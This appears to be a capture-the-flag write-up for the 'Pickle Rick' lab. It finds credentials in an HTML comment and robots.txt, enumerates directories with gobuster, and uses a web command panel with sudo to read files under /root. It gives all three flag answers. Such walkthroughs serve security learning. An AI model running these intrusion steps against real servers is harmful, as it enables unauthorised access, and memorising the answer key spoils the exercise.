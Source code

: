 # Pickle Rick

1. What is the first ingredient that Rick needs?
2. What is the second ingredient in Rick’s potion?
3. What is the last and final ingredient?

Inspecting the HTML of the landing page (`index.html`), we come across a comment:

```text
Note to self, remember username!

    Username: R1ckRul3s
```

Username... but there's no direct way to access a login page

Let's try directory enumeration:

```shell
gobuster dir -u 10.10.241.41 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

![image](./images/pickle/1.png)

```text
robots.txt
> Wubbalubbadubdub

clue.txt
> Look around the file system for the other ingredient.
```

The `assets/` just contains a few images

`portal.php` and `login.php` both direct to the same login page; Username: *R1ckRul3s* and Password: *Wubbalubbadubdub* worked!

Upon logging in, we get a command panel, a Shell!

```shell
ls
```

![image](./images/pickle/2.png)

```shell
cat Sup3rS3cretPickl3Ingred.txt
> Command denied
less Sup3rS3cretPickl3Ingred.txt
> mr. meeseek hair
```

Answer-1: **mr. meeseek hair**

Now, let's try to search for all the text files in the system:

```shell
find / -type f -name "*.txt"
> lot of files, but nothing interesting
sudo find / -type f -name "*.txt"
> an interesting file: /root/3rd.txt
sudo less /root/3rd.txt
> 3rd ingredients: fleeb juice
```

Answer-3: **fleeb juice**

Maybe we can try searching files with "ingredient" in name:

```shell
find / -iname "ingredient"
> /home/rick/second ingredients
less "/home/rick/second ingredients"
> 1 jerry tear
```

Answer-2: **1 jerry tear**
